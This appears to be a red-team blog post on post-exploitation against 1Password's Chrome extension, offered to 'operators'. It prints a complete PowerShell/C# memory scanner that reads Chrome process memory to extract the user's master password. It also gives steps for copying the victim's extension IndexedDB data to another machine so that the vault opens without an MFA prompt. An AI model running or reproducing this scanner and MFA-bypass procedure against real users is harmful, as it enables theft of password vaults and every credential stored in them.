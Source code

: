 # **1Password Chrome Extension Post-Ex**


### tl;dr

I have identified a, probably known, way to "bypass MFA" (it is by design) on 1Password's Chrome Extension. So with the Master Password of the account it is possible to obtain the plaintext creds/secrets stored in the vault without needing MFA. None of this will be new or groundbreaking, I think it is just an area operators might not be looking. 

### Introduction

Red Teaming boiled down is always: get access -> pivot -> get more access until you get where you need to -> plunder. With everything moving to the magical cloud; browsers, and by proxy browser extensions can become single points of failure. So I wanted to think of ways to make life of post-execution easier in obtaining passwords now that well known methods like cookies/lsass are significantly harder to obtain.

With the [rise in use in password managers](https://www.forbes.com/sites/tonybradley/2024/10/24/password-managers-the-essential-defense-against-todays-cyber-threats/) and the secrets they contained I felt that this would be a good start. I chose 1Password because I am a customer but also have to assume almost all password manager extensions suffer from similar "flaws" as there has to be a way to obtain passwords locally/offline. For example, local KeePass DB's use [DPAPI in memory](https://keepass.info/help/base/security.html) once the safe is unlocked. 

### Obtaining Master Password

Obtaining the Master Password is the most difficult step of this attack chain. You could [install a chrome extension](https://syntax-err0r.github.io/Silently_Install_Chrome_Extension.html) or keylog the host or prompt the user, etc.

For this blog we will be scraping Chrome's memory for a string that often aligns with the MasterPassword once it is entered (again--[not new](https://www.cyberark.com/resources/threat-research-blog/extracting-clear-text-credentials-directly-from-chromium-s-memory) ). In my testing on an up to date Windows 11 and chrome this script/method seems to work more than 80% of the time and is usually preceeded by “p.” but I have seen it elsewhere as well.

![](masterpassword_extract.png)

```
Add-Type -TypeDefinition @"
using System;
using System.Text;
using System.Runtime.InteropServices;

public class MemoryScanner
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }

    public static string ScanMemory(int processId, string searchString, int extraCharacters)
    {
        const int PROCESS_QUERY_INFORMATION = 0x0400;
        const int PROCESS_VM_READ = 0x0010;
        IntPtr processHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processId);

        if (processHandle == IntPtr.Zero)
        {
            return "Failed to open process.";
        }

        IntPtr address = IntPtr.Zero;
        MEMORY_BASIC_INFORMATION mbi;
        byte[] searchBytes = Encoding.Unicode.GetBytes(searchString);

        while (VirtualQueryEx(processHandle, address, out mbi, (uint)Marshal.SizeOf(typeof(MEMORY_BASIC_INFORMATION))) != 0)
        {
            if (mbi.State == 0x1000 && (mbi.Protect & 0x04) != 0) // MEM_COMMIT & readable pages
            {
                byte[] buffer = new byte[(int)mbi.RegionSize];
                int bytesRead;
                if (ReadProcessMemory(processHandle, mbi.BaseAddress, buffer, buffer.Length, out bytesRead) && bytesRead > 0)
                {
                    for (int i = 0; i <= buffer.Length - searchBytes.Length; i++)
                    {
                        bool match = true;
                        for (int j = 0; j < searchBytes.Length; j++)
                        {
                            if (buffer[i + j] != searchBytes[j])
                            {
                                match = false;
                                break;
                            }
                        }
                        if (match)
                        {
                            int totalBytesToExtract = searchBytes.Length + (extraCharacters * 2); // Unicode is 2 bytes per char
                            if (i + totalBytesToExtract > buffer.Length)
                            {
                                totalBytesToExtract = buffer.Length - i; // Ensure we don't go out of bounds
                            }

                            string extractedText = Encoding.Unicode.GetString(buffer, i, totalBytesToExtract);
                            CloseHandle(processHandle);
                            return extractedText;
                        }
                    }
                }
            }
            address = new IntPtr(mbi.BaseAddress.ToInt64() + mbi.RegionSize.ToInt64());
        }

        CloseHandle(processHandle);
        return "String not found.";
    }
}
"@ -Language CSharp

function Search-ProcessMemory {
    param (
        [int]$TargetPID,  # Using a non-reserved variable name
        [string]$SearchString,
        [int]$ExtraCharacters = 20  # Number of extra characters to extract after the match
    )

    $process = Get-Process -Id $TargetPID -ErrorAction SilentlyContinue
    if ($process) {
        Write-Host "Scanning memory of process: $($process.ProcessName) (PID: $($process.Id))"
        $result = [MemoryScanner]::ScanMemory($process.Id, $SearchString, $ExtraCharacters)
        Write-Host $result
    } else {
        Write-Host "Process with PID $TargetPID not found."
    }
}

$chromeProcesses = Get-Process chrome -ErrorAction SilentlyContinue
$SearchString = "Enter your password"

foreach ($proc in $chromeProcesses) {
Search-ProcessMemory -TargetPID $proc.id -SearchString $SearchString -ExtraCharacters 500 }

```

### The Curious Case Of MFA

While perusing 1Passwords [support documents](https://blog.1password.com/should-protect-1password-with-2fa/) on MFA I noticed the line "When turned on, a second factor will be required to add your account on a new device, in addition to your 1Password account password and Secret Key.”. The word “new” was interesting to me. I knew from reversing the extension there was an associated device identifier but what if we can mimic/copy that id? I am sure there is some complicated checks/hashes/etc. that go into it but what I realized was if we copy over the local extension files the chrome extension saw the same device identifier, which means no MFA prompt or alerting to the user. 

Steps to reproduce:

- Install Chrome in fresh VM
- Install the 1Password Extension for Chrome
- Copy over ‘C:\Users\Nick\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_aeblfdkhhhdcdjpifhhbdiojplfjncoa_0.indexeddb.leveldb’ and everything underneath to the VM from the victim's machine 
- Enter in the MasterPassword


### Conclusions

If you are an operator and land on a machine it is worth your while to check to see if '%localappdata%\Google\Chrome\User Data\Default\Extensions\aeblfdkhhhdcdjpifhhbdiojplfjncoa' exists. I also want to be clear--this is not a knock on 1Password as I believe in the product (although it would be nice to add a feature to require MFA at every login). Again, none of this is new or novel or ultimately a vulnerability, we are just abusing legitimate features of software but the payout for an operator could be big. 

### Future Work

I think that once the local DB is decrypted on the victim machine there might be a way to obtain these from the IndexedDB despite the file lock without knowing the MasterPassword
